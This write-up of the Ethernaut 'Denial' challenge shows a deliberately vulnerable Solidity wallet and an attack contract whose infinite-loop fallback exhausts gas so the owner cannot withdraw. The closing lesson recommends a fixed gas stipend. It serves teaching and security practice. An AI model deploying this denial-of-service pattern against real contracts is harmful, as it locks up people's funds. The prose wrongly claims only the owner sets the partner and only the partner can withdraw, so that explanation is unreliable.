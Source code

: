 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Review Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Challenge's message:

> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


The "Denial" contract is a Solidity smart contract that allows for withdrawing funds by a designated partner. It is designed to split the withdrawal into two equal parts, with 1% going to the recipient (designated partner) and 1% going to the owner of the contract. The contract also keeps track of the partner's balances for transparency.

After deploying the contract, the contract owner can call the setWithdrawPartner function to set the withdrawal partner's address. This partner is the only one allowed to initiate withdrawals. Anyone can deposit funds into the contract by simply sending ETH to the contract's address. 

The designated partner can call the withdraw function to withdraw funds from the contract. The function sends 1% of the contract's balance to the partner and 1% to the contract owner. The partner's withdrawal can revert if their contract's logic or requirements are not met, but this will not affect the owner's share. The contractBalance function can be used to view the current balance of the contract.



# Subverting

```solidity
pragma solidity ^0.8.0;

import './Denial.sol';

contract Attack{

    Denial target;

    constructor(address payable _target){
        target = Denial(_target);
        target.setWithdrawPartner(address(this));
    }

    fallback()external payable{
       while(true){

       }
    }

}
```

See [in etherscan](https://sepolia.etherscan.io/tx/0x2e4dd5819c5d06e11197c1f502769994f066dbfd3ddcd1f0a1cdfcc85e63d15d).

Ethernaut's message:

> This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified. If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value(). Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise. Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.





